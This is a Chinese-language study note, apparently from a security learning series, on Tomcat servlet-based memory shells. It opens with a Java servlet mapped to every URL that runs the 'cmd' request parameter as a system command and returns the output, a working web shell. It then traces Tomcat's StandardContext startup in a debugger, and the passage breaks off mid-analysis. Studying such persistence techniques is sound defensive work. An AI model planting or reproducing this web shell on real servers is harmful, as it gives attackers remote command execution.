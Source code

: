 # Tomcat内存马之Servlet

## 前言

关于 Servlet 的知识，同样在前面[Servlet](../../01-JavaWeb基础/0-Servlet/Servlet.md)章节已经学习过，这里不再赘述，直接进入分析环节。

## Servlet流程分析

先编写一个 Servlet 实现类
```java
package com.servlet.study;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

/**
 * Created by dotast on 2022/11/1 11:21
 */
@WebServlet(urlPatterns = "/*")
public class ServletTest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        try{
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            ByteArrayOutputStream bao = new ByteArrayOutputStream();
            byte[] bytes = new byte[1024];
            int a = -1;
            while((a = inputStream.read(bytes))!=-1){
                bao.write(bytes, 0, a);
            }
            resp.getWriter().write(new String(bao.toByteArray()));

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

访问带上参数执行命令
![image-20221101114404454](images/image-20221101114404454.png)

在前面的学习中，我们知道 Servlet 是在`StandardContext#startInternal()`方法里的`loadOnStartup()`进行调用，在这里打上断点
![image-20221102112537194](images/image-20221102112537194.png)

跟进`findChildren()`方法
![image-20221102112635004](images/image-20221102112635004.png)

此时的`children`属性已经存储了我们的 Servlet 实现类`com.servlet.study.ServletTest`，接下来需要寻找在哪里开始添加的以及如何添加。

返回`StandardContext#startInternal()`方法从前面开始看，其中`fireLifecycleEvent()`方法的注释是有关于生命周期的，我们将断点打在该方法上进行调试
![image-20221103111449771](images/image-20221103111449771.png)

跟进该方法
![image-20221103111558988](images/image-20221103111558988.png)

继续跟进`listener.lifecycleEvent()`方法
![image-20221103111626107](images/image-20221103111626107.png)

继续跟进`configureStart()`方法
![image-20221103111647954](images/image-20221103111647954.png)

调用了`webConfig()`方法，继续跟进
![image-20221102172945026](images/image-20221102172945026.png)

开始创建 WebXml 对象，此时`servletMappings`为空，继续往下走
![image-20221102173152155](images/image-20221102173152155.png)

在`context.getServletContext();`处添加了一些 Map 对象，但没有我们创建的`ServletTest`类，继续往下走
![image-20221102173254792](images/image-20221102173254792.png)

这里跟进`processClasses()`方法
![image-20221102173420245](images/image-20221102173420245.png)

这里调用`context.getResources().listResources()`方法获取`/WEB-INF/classes`路径下的内容	
